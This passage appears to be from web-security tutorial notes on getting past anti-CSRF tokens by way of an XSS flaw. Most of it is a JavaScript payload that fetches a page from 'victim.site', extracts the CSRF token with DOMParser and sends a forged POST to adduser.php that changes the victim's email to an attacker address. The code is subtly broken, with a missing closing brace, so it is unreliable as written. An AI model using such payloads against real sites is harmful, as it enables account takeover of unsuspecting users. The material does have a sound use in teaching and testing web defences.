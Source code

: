 There are multiple options available to both inspect the string result and extract the anti CSRF token. Let’s check out two of those options, the first one using a regex based approach and the [DOMParser](https://developer.mozilla.org/en-US/docs/Web/API/DOMParser/DOMParser) API.

![](./assets/2.png)





##### 3-Forge the Form with the Stolen Token

The final step, once we have a valid token, is to add the anti CSRF token in the forged form and send the attack by using the techniques we have seen in the previous sections

if we have a csrf token in `adduser.php` and xss in another page. we need to get the csrf token first, then send the `POST` request containing the csrf token.

```html
<script>
function addUser(token){
var url = "http://victim.site/adduser.php";
var params = "old=mycoolemail@victim.site&new=evil@hacker.site&csrf_token="+token;
var CSRF = new XMLHttpRequest();
CSRF.open("POST", url, true);
CSRF.withCredentials = true;
CSRF.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
CSRF.send (params);
}

// First send a request to get the csrf token, then send the POST request with the token
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
  if(this.readyState == 4) {
    var htmlSource = xhr.responseText;
    
    //Extract the csrf token
    var parser = new DOMParser().parseFromString(htmlSource, "text/html");
    var token = parser.getElementById('CSRFToken').value;
    addUser(token);
  }
xhr.open("GET", "http://victim.site/csrf-form-page.html", true);
xhr.send();

</script>
```
